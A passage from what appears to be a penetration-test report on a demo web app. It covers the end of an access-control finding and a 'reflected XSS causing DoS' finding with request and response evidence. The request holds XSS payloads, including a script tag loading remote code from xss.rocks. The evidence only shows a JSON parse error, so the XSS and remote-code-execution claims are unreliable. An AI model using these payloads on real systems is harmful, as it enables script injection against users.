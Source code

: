 3. Capture the request for updating an application as the first user and replace the application ID in the request with the application ID of the second user’s application.

4. Submit the modified request. Observe that changes made by the first user are applied to the second user’s application, confirming unauthorized modification capability.



### Reflected Cross-Site Scripting (XSS) Leading to Denial of Service (DoS)

#### Descritpion
A reflected Cross-Site Scripting (XSS) vulnerability was identified in the /feedback endpoint, which allows attackers to inject arbitrary JavaScript code into the application. When an attacker submits feedback containing malicious script tags, these are reflected back in the response, causing the admin interface to break. During testing, a malicious payload was submitted in the feedback field, which resulted in a 500 Internal Server Error or JSON parsing error. The error occurred when the admin tried to view the feedback data, indicating that the injected script corrupted the JSON response, effectively causing a Denial of Service (DoS) for administrators attempting to view feedback entries.

#### Severity
High

#### Impact in Business Context
This vulnerability can disrupt administrative operations by causing a denial of service on the feedback interface. Since administrators are responsible for reviewing feedback that could influence security decisions, the ability to inject arbitrary scripts and cause errors in the admin view directly impacts their ability to review critical user feedback. This could result in delays in responding to application vulnerabilities, missed security threats, and a deterioration of operational trust in the system. Additionally, this flaw might be exploited for further attacks, potentially leading to more severe consequences like remote code execution in the future.

#### Evidence
- Request
    ```json
    POST /v1/feedback HTTP/1.1
    Host: 192.168.72.128:3000
    Content-Length: 1278
    Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiI2MWY3YTMzOTkyYWU4MmU5MDNjYTVmM2EiLCJpYXQiOjE3MzA5OTcyODksImV4cCI6NDEwMjQ0NDgwMCwidHlwZSI6ImFjY2VzcyJ9.dTMDHIyLoek1Jlj7eiRcye38M5TMrPclxRulsiCgQBE
    Content-Type: application/json

    {
        "message":<SCRIPT/XSS SRC='http://xss.rocks/xss.js'></SCRIPT>,
        "browserDataJSON":"{\"vendorSub\":\"\\\"\\\"\",\"productSub\":\"\\\"20030107\\\"\",\"vendor\":\"\\\"Google Inc.\\\"\",\"maxTouchPoints\":\"10\",\"scheduling\":\"{}\",\"userActivation\":\"{}\",\"doNotTrack\":\"null\",\"geolocation\":\"{}\",\"connection\":\"{}\",\"plugins\":\"{\\\"0\\\":{\\\"0\\\":{}},\\\"1\\\":{\\\"0\\\":{}}}\",\"mimeTypes\":\"{\\\"0\\\":{},\\\"1\\\":{}}\",\"pdfViewerEnabled\":\"true\",\"webkitTemporaryStorage\":\"{}\",\"webkitPersistentStorage\":\"{}\",\"windowControlsOverlay\":\"{}\",\"hardwareConcurrency\":\"8\",\"cookieEnabled\":\"true\",\"appCodeName\":\"\\\"Mozilla\\\"\",\"appName\":\"\\\"Netscape\\\"\",\"appVersion\":\"\\\"5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36\\\"\",\"platform\":\"\\\"Win32\\\"\",\"product\":\"\\\"Gecko\\\"\",\"userAgent\":\"\\\"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36\\\"\",\"language\":\"\\\"en-US\\\"\",\"languages\":\"[\\\"en-US\\\"]\",\"onLine\":\"true\",\"webdriver\":\"false\",\"ink\":\"{}\",\"mediaCapabilities\":\"{}\",\"mediaSession\":\"{}\",\"permissions\":\"{<IMG SRC=# onmouseover=\"alert('xxs')\">}\"}"
    }
    ```

- Response
    ```json
    {
        "code":500,
        "message":"Internal Server Error",
        "stack":"SyntaxError: Unexpected token < in JSON at position 11\n    at JSON.parse (<anonymous>)\n    at parse (/home/silver/demoapp/demoapp-backend/node_modules/body-parser/lib/types/json.js:89:19)\n    at /home/silver/demoapp/demoapp-backend/node_modules/body-parser/lib/read.js:121:18\n    at invokeCallback (/home/silver/demoapp/demoapp-backend/node_modules/raw-body/index.js:224:16)\n    at done (/home/silver/demoapp/demoapp-backend/node_modules/raw-body/index.js:213:7)\n    at IncomingMessage.onEnd (/home/silver/demoapp/demoapp-backend/node_modules/raw-body/index.js:273:7)\n    at IncomingMessage.emit (events.js:203:15)\n    at endReadableNT (_stream_readable.js:1145:12)\n    at process._tickCallback (internal/process/next_tick.js:63:19)"
    }
    ```
